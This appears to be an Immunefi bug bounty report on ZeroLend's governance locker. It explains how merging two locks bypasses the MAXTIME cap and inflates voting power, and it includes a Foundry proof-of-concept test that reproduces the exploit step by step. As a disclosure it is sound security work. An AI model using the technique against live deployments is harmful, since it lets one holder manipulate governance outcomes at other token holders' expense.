 
# ZeroLocker:merge can make a voting lock last longer than MAXTIME and inflate voting power

Submitted on Thu Feb 29 2024 19:23:04 GMT-0400 (Atlantic Standard Time) by @jovi for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #28892

Report type: Smart Contract

Report severity: Medium

Target: https://github.com/zerolend/governance

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
I have previously reported an issue called  "ZeroLocker:merge can make a voting lock last longer than 4 years" as a primary medium-severity issue at Cantina's contest as there wasn't a voting power calculation function at that codebase. I am reporting it again as the impact at the codebase in Immunefi's scope is higher and presents a significance for the voting mechanics.
## Brief/Intro

The BaseLocker contract allows users to merge two different locks and end up with a lock that has a longer than MAXTIME difference between the end time and start time. This inflates the calculation of voting power for locks and give them an unfair advantage on governance.

## Vulnerability Details
The merge method enables a user to bypass the MAXTIME requirement by creating two different locks that last MAXTIME, one at Time0 and the second one some time later at Time1 then merging with the first lock as the merge target (or **to** argument) at the merge call:
```solidity
function merge(uint256 _from, uint256 _to) external override {
```

As the merge function at the BaseLocker contract does not check whether the end minus the locked0.start is not greater than MAXTIME, it enables arbitrary-sized lock durations:
```solidity
LockedBalance memory _locked0 = locked[_from];
        LockedBalance memory _locked1 = locked[_to];
        uint256 value0 = uint256(int256(_locked0.amount));
        uint256 end = _locked0.end >= _locked1.end
            ? _locked0.end
            : _locked1.end;

        locked[_from] = LockedBalance(0, 0, 0, 0);

        _burn(_from);
        _depositFor(_to, value0, end, _locked1, DepositType.MERGE_TYPE);
```

The depositFor internal method updates the lock, but it doesn't check the end timestamp and the start timestamp difference either, the only sanity check is in regards to unlockTime != 0:
```solidity
if (_unlockTime != 0) lock.end = _unlockTime;
```

This enables calculatePower to utilize a numerator bigger than MAXTIME, inflating locks amounts voting power:
```solidity
function _calculatePower(
        LockedBalance memory lock
    ) internal view returns (uint256) {
        return ((lock.end - lock.start) * lock.amount) / MAXTIME;
    }
```

## Impact Details
The whole voting mechanics is spoofed as merging allows users to have voting powers bigger than the maximum possible for the amounts deposited. This effectively makes governance a game of merging locks at the last possible moment before a voting start in order to have ever-increasing voting powers.
## References
Snippet in which merge doesn't check the total duration of the lock: https://github.com/zerolend/governance/blob/main/contracts/locker/BaseLocker.sol#L180C8-L185C28
CalculatePower internal method: https://github.com/zerolend/governance/blob/main/contracts/locker/BaseLocker.sol#L112C4-L117C1
        
## Proof of concept
### PoC
Set up foundry on hardhat by placing
```solidity
import "@nomicfoundation/hardhat-foundry";
```
at the hardhat.config.ts file. Don't forget to install "@nomicfoundation/hardhat-foundry".
Then install foundry at the contracts folder with the following command:
```solidity
forge init --force
```

Install openzeppelin contracts at foundry:
```solidity
forge install Openzeppelin/openzeppelin-contracts@v5.0.1 --no-commit
forge install OpenZeppelin/openzeppelin-contracts-upgradeable --no-commit
```

Place the following code-snippet at the Test.t.sol file inside the test folder:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {console} from "../../lib/forge-std/src/console.sol";
import {StdInvariant} from "../../lib/forge-std/src/StdInvariant.sol";
import {LockerLP} from "../../locker/LockerLP.sol";
import {Test} from "../../lib/forge-std/src/Test.sol";
import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract MintableERC20 is ERC20 {
    address public owner;

    constructor(string memory name, string memory symbol) ERC20(name, symbol) {
        owner = msg.sender;
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "MintableERC20: caller is not the owner");
        _;
    }

    function mint(address to, uint256 amount) public onlyOwner {
        _mint(to, amount);
    }
}

contract ZeroLendTest is StdInvariant, Test {

    LockerLP lockerLP;
    MintableERC20  arbitraryToken;
    address user = makeAddr("user");
    address public configurator = makeAddr("configurator");
    uint256 internal WEEK;
    uint256 internal MAXTIME;

    function setUp() public {
        vm.prank(configurator);
        arbitraryToken = new MintableERC20("Arbitrary Token", "ATKN");
        vm.prank(configurator);
        arbitraryToken.mint(user, 1 ether);


        vm.prank(configurator);
        lockerLP = new LockerLP();

        lockerLP.init(
            address(arbitraryToken),
            // staking address
            address(0x1000),
            // stakingBonus
            address(0x1001)
        );

        WEEK = 1 weeks;
        // MAXTIME is set to 1 year as it is the value set at the initialization of the LockerLP contract
        MAXTIME = 365 * 86400;

    }
 
    function test_poc() public {

        vm.prank(user);
        arbitraryToken.approve(address(lockerLP), 1 ether);

        uint256 unlockTime0 = ((block.timestamp + MAXTIME) / WEEK) * WEEK; // Locktime is rounded down to weeks
        vm.prank(user);
        lockerLP.createLock(0.5 ether, unlockTime0, false);

        // pass some time
        vm.warp(block.timestamp + WEEK);

        uint256 unlockTime1 = ((block.timestamp + MAXTIME) / WEEK) * WEEK - 100; // Locktime is rounded down to weeks
        vm.prank(user);
        lockerLP.createLock(0.5 ether, unlockTime1, false);

        vm.prank(user);
        lockerLP.merge(2, 1);

        (uint256 amountLocked, uint256 end, uint256 start,) = lockerLP.locked(1);
        // check if amount locked is 1 ether
        require(amountLocked == 1 ether, "wrong amount locked");

        // check the difference between the end and the start 
        require(end - start > MAXTIME, "lock duration is not over 1 year");
       
        // check if voting power is bigger than what should be possible
        uint256 maxVotingPower = MAXTIME * amountLocked / MAXTIME;
        uint256 currentVotingPower = (end - start) * amountLocked / MAXTIME;
        require(currentVotingPower > maxVotingPower, "current voting power is not bigger than maximum expected value");
    }

}
```